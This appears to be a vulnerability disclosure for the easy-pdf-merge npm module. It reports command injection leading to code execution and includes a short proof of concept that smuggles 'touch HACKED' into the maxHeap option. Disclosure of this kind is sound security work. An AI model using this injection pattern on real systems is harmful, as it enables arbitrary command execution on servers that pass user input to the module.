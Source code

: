 # :bug: Description

The `easy-pdf-merge` module is vulnerable against `RCE` since `user supplied inputs` are formatted inside a command which is executed without prior checks.

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
const merge = require('easy-pdf-merge');

merge(["test", "test1"], "test2", {maxHeap:"test; touch HACKED; #"}, function(err){
  if(err) {
    return console.log(err)
  }
  console.log('Success')
});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i easy-pdf-merge # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
